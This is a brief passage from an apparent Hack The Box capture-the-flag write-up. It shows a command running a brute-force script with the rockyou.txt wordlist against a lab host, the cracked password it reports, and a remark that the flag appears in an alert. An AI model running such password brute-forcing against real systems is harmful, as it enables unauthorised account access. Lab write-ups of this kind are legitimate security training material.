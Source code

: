 ```shell
$ python3 brute.py docker.hackthebox.eu:32741 rockyou.txt
...
[+] Cracked! Password -> poohbear [+]

```


Now enter the password, and the flag will be in the alert! 


I don't know if i can post the flag here, but the flag will be in the alert!

